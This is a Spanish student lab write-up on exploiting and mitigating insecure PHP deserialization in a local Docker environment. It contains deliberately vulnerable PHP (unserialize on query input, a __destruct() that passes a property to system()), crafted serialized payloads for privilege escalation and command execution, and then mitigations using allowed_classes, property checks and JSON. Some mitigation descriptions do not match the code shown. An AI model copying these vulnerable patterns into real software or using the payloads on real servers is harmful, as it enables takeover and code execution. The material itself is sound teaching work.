

# PPS-Unidad3Actividad-DeserializacionInsegura_Angel

Esta actividad corresponde a la Unidad 3 de Puesta en Producción Segura. En esta actividad vamos a trabajar con **eplotación y mitigación de vulnerabilidad de deserialización insegura** 


## Objetivos:

* Comprobar cómo se pueden realziar ataques de Deserialización insegura.

* Analizar el código de la aplicación que permite ataques de Deserialización insegura.

* Explorar la deserialización insegura y mitigarlo con JSON.

* Implementar diferentes modificaciones del código para aplicar mitigaciones o soluciones.

---

## ¿Qué es Deserialización Insegura (Unsafe Deserialization)?

La deserialización insegura es una vulnerabilidad que ocurre cuando una aplicación procesa datos serializados sin aplicar controles de validación adecuados. Este comportamiento permite a un atacante manipular dichos datos con el objetivo de alterar el flujo normal de ejecución de la aplicación o incluso de ejecutar código malicioso en el sistema.


### Riesgos y consecuencias

* Escalada de privilegios
* Ejecución remota de código
* Manipulación de datos internos de la aplicación:

Ejecución remota de código (RCE): Si el objeto deserializado invoca métodos especiales como __wakeup() o __destruct() (en PHP), o readObject() (en Java), el atacante puede diseñar una carga maliciosa que se ejecute automáticamente al deserializar.

Escalada de privilegios: Al modificar propiedades internas del objeto, un atacante podría obtener privilegios elevados, como transformar una cuenta de usuario estándar en una cuenta de administrador.

Manipulación de la lógica de la aplicación: El atacante puede alterar el comportamiento interno de la aplicación, afectando decisiones de negocio o el control de acceso.


## Actividades

- Leer la [sección de vulnerabilidades de subida de archivos de la página de __PortWigger__](https://portswigger.net/web-security/deserialization)

- Leer el [documento sobre Explotación y Mitigación de ataques de Remote Code Execution](./files/ExplotacionYMitigacionDeserializacionInsegura.pdf)


## Operaciones

### Iniciar entorno de pruebas


```
docker-compose up -d
```

### Código vunerable 

La vulnerabilidad surge por el uso de objetos en aplicaciones que necesitan enviar información a través de la red o entre componentes del sistema. Para este proceso los objetos de serializan, es decir, se convierten en un formato para ser enviados y para que se reconstruyan después en su forma orignal con deserialización.

El problema está cuando la aplicación deserializa los datos sin aplicar validaciones como (unserialize($_GET['data'])) que permite que un atacante modifique el objeto y otorgar privilegios no autorizados.

Para mostrar las variables del objeto serializado, creamos un archivo vulnerable llamado **MostrarObjeto.php** con el siguiente contenido:

```
<?php
class User {
    public $username;
    public $isAdmin = false;

}

if (isset($_GET['data'])) {
    $data = $_GET['data'];
    $obj = @unserialize($data);

    echo "<h3>Objeto deserializado:</h3>";
    echo "<pre>";
    print_r($obj);
    echo "</pre>";

    // Opcional: forzar destrucción
    unset($obj);
} else {
    echo "No se proporciona� ningun dato.";
}

```


A su vez, creamos un archivo llamado **GenerarObjeto.php** para poder visualizar los datos serializados y mostrar así un enlace al archivo MostrarObjeto.php. 

El contenido de GenerarObjeto.php es el siguiente:


```
<?php
class User {
    public $username;
    public $isAdmin = false;
}

$serialized = '';

if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    $user = new User();
    $user->username = $_POST['username'] ?? 'anon';
    $user->isAdmin = ($_POST['isAdmin'] ?? '0') === '1';

    $serialized = serialize($user);
}
?>

<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8">
    <title>Generador de Objeto Serializado</title>
</head>
<body>
    <h2>Generar objeto serializado</h2>
    <form method="post">
        <label>Nombre de usuario:</label>
        <input type="text" name="username" required><br><br>

        <label>¿Administrador?</label>
        <select name="isAdmin">
            <option value="0">No</option>
            <option value="1">Sí</option>
        </select><br><br>

        <button type="submit">Generar</button>
    </form>

    <?php if ($serialized): ?>
        <h3>Objeto serializado:</h3>
        <textarea cols="80" rows="4"><?= htmlspecialchars($serialized) ?></textarea><br><br>

        <p>
            <strong>Enlace para probar:</strong><br>
            <a href="MostrarObjeto.php?data=<?= urlencode($serialized) ?>" target="_blank">
                MostrarObjeto.php?data=<?= htmlspecialchars(urlencode($serialized)) ?>
            </a>
        </p>
    <?php endif; ?>
</body>
</html>
```

Esto nos permite:

- Crear objetos User con isAdmin= true o false.

- Ver la cadena serializada.

- Verificar directamente el exploit en el script MostrarObjeto.php (o el que verifica isAdmin).


A continuación, comprobamos como queda el objeto serializado:

```
O:4:"User":2:{s:8:"username";s:4:"Raul";s:7:"isAdmin";b:0;}
```

Esto nos dará el enlace para probarlo, por lo que lo enviamos a MostrarObjeto.php

```
http://localhost/MostrarObjeto.php?data=O%3A4%3A%22User%22%3A2%3A%7Bs%3A8%3A%22username%22%3Bs%3A4%3A%22Raul%22%3Bs%3A7%3A%22isAdmin%22%3Bb%3A0%3B%7D
```

Vemos cómo podemos preparar la ruta para mostrar el objeto serializado conectando:

`http://localhost/MostrarObjeto.php?data=` con el objeto serializado, en este caso: `O:4:"User":2:{s:8:"username";s:4:"Raul";s:7:"isAdmin";b:0;}`


---

##  Explotación de Deserialización Insegura

A la hora de intercambiar objetos entre diferentes módulos, pasamos el objeto serializado. Esto lo pueden usar atacantes para envair a nuestros códigos PHP la serialización modificada.

## Crear un objeto malicioso en PHP


En la anterior captura, comprobamos que del enlace generado, cualquier persona puede saber el nombre del tipo de objetos, variables y valores que tienen.
Por ejemplo, el usuario Raul podría:

__1 - Modificar la serialización.__

El objeto serializado es: "MostrarObjeto.php?data=O%3A4%3A%22User%22%3A2%3A%7Bs%3A8%3A%22username%22%3Bs%3A4%3A%22Raul%22%3Bs%3A7%3A%22isAdmin%22%3Bb%3A**0**%3B%7D"

Podemos cambiar los datos del valor IsAdmin:

```
MostrarObjeto.php?data=O%3A4%3A%22User%22%3A2%3A%7Bs%3A8%3A%22username%22%3Bs%3A4%3A%22Raul%22%3Bs%3A7%3A%22isAdmin%22%3Bb%3A**1**%3B%7D
```



Con esto, Raul podría haber cambiado su estado y convertirse en administrador.

Raul podría haber cambiado su estado, convirtiéndose en administrador.


**2 - Crear un archivo para crear la serialización con los datos que se queramos.**

Crear el archivo __HackerAdmin.php__  y ejecutar este código en la máquina atacante:

```
<?php
class User {
	public $username = "hacker";
	public $isAdmin = true;
}
echo urlencode(serialize(new User()));
?>
```

Salida esperada (ejemplo):

```
O%3A4%3A%22User%22%3A2%3A%7Bs%3A8%3A%22username%22%3Bs%3A6%3A%22hacker%22%3Bs%3A7%3A%22isAdmin%22%3Bb%3A1%3B%7D
```

Este objeto serializado podemos usarlo para enviarlo al archivo MostrarObjeto.php y así "hacker" sería administrador.


---


__Intentar RCE con __destruct()__

En el caso de que la clase **User** tenga el método __destruct()__, podemos ejecutar código en el servidor, este es el __mayor riesgo al explotar la deserialización__.

Para comprobarlo creamos el fichero __GenerarObjeto1.php__

```
<?php
class User {
    public $username;
    public $isAdmin = false;
    public $cmd;

    public function __destruct() {
        if (!empty($this->cmd)) {
            //echo "<pre>Ejecutando comando: {$this->cmd}\n";
            system($this->cmd);
            //echo "</pre>";
        }
    }
}
$serialized = '';

if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    $user = new User();
    $user->username = $_POST['username'] ?? 'anon';
    $user->isAdmin = ($_POST['isAdmin'] ?? '0') === '1';

    $serialized = serialize($user);
}
?>

<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8">
    <title>Generador de Objeto Serializado</title>
</head>
<body>
    <h2>Generar objeto serializado</h2>
    <form method="post">
        <label>Nombre de usuario:</label>
        <input type="text" name="username" required><br><br>

        <label>¿Administrador?</label>
        <select name="isAdmin">
            <option value="0">No</option>
            <option value="1">Sí</option>
        </select><br><br>

        <button type="submit">Generar</button>
    </form>

    <?php if ($serialized): ?>
        <h3>Objeto serializado:</h3>
        <textarea cols="80" rows="4"><?= htmlspecialchars($serialized) ?></textarea><br><br>

        <p>
            <strong>Enlace para probar:</strong><br>
            <a href="MostrarObjeto.php?data=<?= urlencode($serialized) ?>" target="_blank">
                MostrarObjeto.php?data=<?= htmlspecialchars(urlencode($serialized)) ?>
            </a>
        </p>
    <?php endif; ?>
</body>
</html>
```

Este código incluye los siguientes cambios:

- Una propiedad llamada __$cmd__ que contendrá un comando que se va a ejecutar.

- El método __destruct()__ que se activa automáticamente al final del script (cuando el objeto es destruido), así podemos ver mejor la explotación por deserialización.


El atacante podría serializar el objeto incluyendo código para ejecutar en nuestro servidor.
A continuación, vamos a modificar el objeto malicioso para incluir un código a ejecutar, creamos un archivo llamado __explotarGenerarObjeto1.php__:

```
<?php
class User {
    public $username;
    public $isAdmin = false;
    public $cmd;

    public function __destruct() {
        if (!empty($this->cmd)) {
            // ***** Cuidado ejecución insegura de código del sistema ******
            echo "<pre>Ejecutando comando: {$this->cmd}\n";
            system($this->cmd);
            echo "</pre>";
        }
    }
}

$serialized = '';

if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    $user = new User();
    $user->username = $_POST['username'] ?? 'anon';
    $user->isAdmin = ($_POST['isAdmin'] ?? '0') === '1';
    $user->cmd = $_POST['cmd'] ?? '';

    $serialized = serialize($user);
}
?>

<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8">
    <title>Generador de Objeto Serializado</title>
</head>
<body>
    <h2>Generar objeto serializado con código ejecutable</h2>
    <form method="post">
        <label>Nombre de usuario:</label>
        <input type="text" name="username" required><br><br>

        <label>¿Administrador?</label>
        <select name="isAdmin">
            <option value="0">No</option>
            <option value="1">Sí</option>
        </select><br><br>

        <label>Comando a ejecutar (ej: <code>whoami</code>):</label><br>
        <input type="text" name="cmd" size="50"><br><br>

        <button type="submit">Generar</button>
    </form>

    <?php if ($serialized): ?>
        <h3>Objeto serializado:</h3>
        <textarea cols="80" rows="4"><?= htmlspecialchars($serialized) ?></textarea><br><br>

        <p>
            <strong>Enlace para probar:</strong><br>
            <a href="MostrarObjeto1.php?data=<?= urlencode($serialized) ?>" target="_blank">
                MostrarObjeto.php?data=<?= htmlspecialchars(urlencode($serialized)) ?>
            </a>
        </p>
    <?php endif; ?>
</body>
</html>
```

### Para realizar la prueba debemos:

1. Marcar "__Sí__" en la opción de administrador

2. Escribir un comando, como __ls -l, id, etc...__

3. El objeto se serializa incluyendo el comando introducido.

4. Al deserializarlo en __MostrarObjeto.php__, se ejecuta automática en el __destruct()__.

Probamos con:

```
__echo "El servidor ha sido hackeado" > /var/www/html/ServidorHackeado.tmp"__
```


Ahora, probamos con:

```
__ls -l > /tmp/output.txt__
```


```
http://localhost/MostrarObjeto.php?data=O%3A4%3A%22User%22%3A3%3A{s%3A8%3A%22username%22%3Bs%3A4%3A%22Raul%22%3Bs%3A7%3A%22isAdmin%22%3Bb%3A0%3Bs%3A3%3A%22cmd%22%3Bs%3A21%3A%22ls+-l+%2Ftmp%2Foutput.txt%22%3B}
```


Vamos a ver el contenido del archivo `/tmp/output.txt`, en nuestro caso usando docker, podemos entrar y ver el archivo o ejecutar el siguiente comando

```
docker exec -it lamp-php83 /bin/bash -c 'cat /tmp/output.txt'
```


Concluimos así verificando que podemos ejecutar comandos dentro del servidor. En este caso ha sido con el usuario __www-data__, pero si lo combinasemos con otros ataques, como escalada de privilegios, podríamos haber ejecutado cualquier comando teniendo más acceso.

---

## Mitigación de Unsafe Deserialization

### ¿Cómo Validar los datos?

Si queremos mitigar el problema (no se pueden añadir propiedades inesperadas), se puede usar la interfaz __Serializable__ o __wakeup()__ junto con la visibilidad privada o protegida de las propiedades, y una validación explícita del contenido deserializado.

Para realizarlo vamos a crear el archivo __MostrarObjeto1.php__:

El siguiente código:

- Continúa usando __unserialize()__ (lo usamos únicamente para propósitos educativos, no debe usarse en entorno real).

- Valida que el objeto sea de la clase que se espera.

- Valida que las propiedades estén bien formadas (por tipo y existencia).

- Permite ver el riesgo de __destruct()__ si no se valida bien.


El contenido de __MostrarObjeto1.php__ es:

```
<?php
class User {
    public $username;
    public $isAdmin = false;

    public function __destruct() {
        if (!empty($this->cmd)) {
            echo "<pre>Ejecutando comando (simulado): {$this->cmd}</pre>";
            // system($this->cmd); // ← mantener comentado para pruebas seguras
        }
    }
}

if (isset($_GET['data'])) {
    $data = $_GET['data'];

    // Deserialización segura: solo se permite la clase User
    $obj = @unserialize($data, ['allowed_classes' => ['User']]);

    if (!$obj instanceof User) {
        echo "Error: El objeto deserializado no es de tipo User.";
        exit;
    }

    // Propiedades permitidas
    $propiedadesPermitidas = ['username', 'isAdmin'];

    // Obtener propiedades reales del objeto deserializado
    $propiedadesObjeto = array_keys(get_object_vars($obj));

    // Verificar que no hay propiedades adicionales
    $propiedadesExtra = array_diff($propiedadesObjeto, $propiedadesPermitidas);

    if (!empty($propiedadesExtra)) {
        echo "<h3>Error:</h3>";
        echo "El objeto contiene propiedades no permitidas: <pre>" . implode(", ", $propiedadesExtra) . "</pre>";
        exit;
    }

    // Validar tipos de propiedades
    $errores = [];

    if (!isset($obj->username) || !is_string($obj->username)) {
        $errores[] = "El campo 'username' no está definido o no es una cadena.";
    }

    if (!isset($obj->isAdmin) || !is_bool($obj->isAdmin)) {
        $errores[] = "El campo 'isAdmin' no está definido o no es booleano.";
    }


    if (!empty($errores)) {
        echo "<h3>Errores de validación:</h3><ul>";
        foreach ($errores as $e) {
            echo "<li>" . htmlspecialchars($e) . "</li>";
        }
        echo "</ul>";
        exit;
    }

    echo "<h3>Objeto deserializado válidamente:</h3>";
    echo "<pre>";
    print_r($obj);
    echo "</pre>";

    // Forzar destrucción
    unset($obj);
} else {
    echo "No se proporciona ningún dato.";
}
```

Esta versión:

- Usa propiedades privadas.

- Implementa la interfaz __Serializable__.

- Valida los datos antes de restaurarlos.

- Impide que se inyecten propiedades no autorizadas.


### Explicación de la Validación de Claves

```
http://localhost/MostrarObjeto1.php?data={"username":"hacker","isAdmin":true, "bypass":"0"}
```

Si se detecta un parámetro no permitido, muestra el error:


Esto mejora:

- Que no se puedan inyectar propiedades personalizadas, debido a que deserializa lo que explícitamente espera.

- No hay ejecución de comandos.

- Control total de cómo se deserializa el objeto


---

### Utilizando JSON 

La mejor manera de evitar ataques de deserialización insegura es no usar el método __unserialize()__ con datos externos.

Usando __JSON__ en lugar de __serialize()__ 

Podemos reforzar más la seguridad, comprobando que las claves que pasamos son únicamente las claves permitidas, así corresponde con los tipos de datos que deberían.

Creamos el archivo __MostrarObjetoJson.php__:

```
<?php
class User {
    private $username;
    private $isAdmin = false;
    private $cmd;

    public function __construct($username, $isAdmin, $cmd) {
        $this->username = $username;
        $this->isAdmin = $isAdmin;
        $this->cmd = $cmd;
    }

    public function __toString() {
        return "Usuario: {$this->username}<br>" .
               "Es administrador: " . ($this->isAdmin ? "Sí" : "No") . "<br>" .
               "Comando: " . htmlspecialchars($this->cmd);
    }
}

if (isset($_GET['data'])) {
    $json = $_GET['data'];

    $data = json_decode($json, true);

    // Validar que sea JSON válido
    if (json_last_error() !== JSON_ERROR_NONE) {
        echo "JSON mal formado.";
        exit;
    }

    // Claves permitidas
    $clavesPermitidas = ['username', 'isAdmin', 'cmd'];
    $clavesRecibidas = array_keys($data);

    // Verificar si hay claves no permitidas
    $clavesNoPermitidas = array_diff($clavesRecibidas, $clavesPermitidas);

    if (!empty($clavesNoPermitidas)) {
        echo "Error: El JSON contiene claves no permitidas: ";
        echo "<pre>" . implode(", ", $clavesNoPermitidas) . "</pre>";
        exit;
    }

    // Validar tipos de datos
    if (!isset($data['username'], $data['isAdmin'], $data['cmd']) ||
        !is_string($data['username']) ||
        !is_bool($data['isAdmin']) ||
        !is_string($data['cmd'])) {
        echo "Datos inválidos.";
        exit;
    }

    // Crear el objeto
    $user = new User($data['username'], $data['isAdmin'], $data['cmd']);

    echo "<h3>Datos recibidos:</h3>";
    echo "<pre>{$user}</pre>";
} else {
    echo "No se proporciona ningún dato.";
}
```

A su vez, creamos también el archivo __GenerarObjetoJson.php__, este creará un objeto JSON alumno que sea administrador:

```
<?php
$data = [
    "username" => "alumno",
    "isAdmin" => true,
    "cmd" => "id" // esto no se ejecutará, solo se mostrará como texto
];
echo urlencode(json_encode($data));
```

### Verificación

Accedemos al JSON que hemos creado:

```
http://localhost/GenerarObjetoJson.php
```

Obtenemos el JSON:

```
%7B%22username%22%3A%22alumno%22%2C%22isAdmin%22%3Atrue%2C%22cmd%22%3A%22id%22%7D
```


A continuación, concatenamos el JSON con la url de MostrarObjetoJSON.php

```
http://localhost/MostrarObjetoJson.php?data=%7B%22username%22%3A%22alumno%22%2C%22isAdmin%22%3Atrue%2C%22cmd%22%3A%22id%22%7D
```

La ejecución sólo se realizará si los datos contienen exclusivamente __username__ y __isAdmin__.


Ahora vamos a modificar __MostrarObjetoJson.php__  para que no esté incluído el comando:

```
class User {
    private $username;
    private $isAdmin = false;
```


(Se me olvidó quitarlo de abajo también)

---

Vamos a crear un archivo llamado __GenerarObjetoJson2.php__ para crear un objeto de manera interactiva y __MostrarObjetoJson.php__ nos mostrará el objeto:

```
<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8">
    <title>Generador de Objeto JSON</title>
</head>
<body>
    <h2>Generar objeto en formato JSON</h2>
    <form method="post">
        <label>Nombre de usuario:</label>
        <input type="text" name="username" required><br><br>

        <label>¿Administrador?</label>
        <select name="isAdmin">
            <option value="0">No</option>
            <option value="1">Sí</option>
        </select><br><br>

        <button type="submit">Generar</button>
    </form>

    <?php
    if ($_SERVER['REQUEST_METHOD'] === 'POST') {
        $username = $_POST['username'];
        $isAdmin = $_POST['isAdmin'] == '1' ? true : false;

        // Puedes agregar más validación aquí si quieres

        $data = [
            "username" => $username,
            "isAdmin" => $isAdmin,
            "cmd" => ""  // Opcionalmente se puede dejar vacío o no incluirlo
        ];

        $json = json_encode($data, JSON_UNESCAPED_UNICODE | JSON_PRETTY_PRINT);
        $encoded = urlencode($json);
        ?>

        <h3>Objeto JSON generado:</h3>
        <textarea cols="80" rows="6"><?= htmlspecialchars($json) ?></textarea><br><br>

        <p>
            <strong>Enlace para probar:</strong><br>
            <a href="MostrarObjetoJson.php?data=<?= $encoded ?>" target="_blank">
                MostrarObjetoJson.php?data=<?= htmlspecialchars($encoded) ?>
            </a>
        </p>
    <?php } ?>
</body>
</html>

```

Al usar JSON tenemos las siguientes ventajas:

- No creamos objetos automáticamente, por lo que no se ejecutan métodos como __destruct()__.

- Es más legible y portable entre lenguajes.

- **json_decode()** NO ejecuta código PHP, evitando RCE.

- Validación explícita de los datos, sin riesgo de objetos maliciosos.

---

Al intentar introducir otros atributos dentro del objeto __user__ otros datos:


```
http://localhost/MostrarObjetoJson.php?data=%7B%22username%22%3A%22alumno%22%2C%22isAdmin%22%3Atrue%2C%22cmd%22%3A%22id%22%7D
```

Ahora vemos como nos da error en el caso de que intentemos meter los objetos serializados en vez de mandarlos en forma de JSON.


Podemos concluir que usar JSON en lugar de __serialize()/unserialize()__ es de las mejores formas de evitar la deserialización insegura, ya que __JSON__ solo representa datos, no objetos con métodos o comportamientos.


> Ángel Pérez Blanco
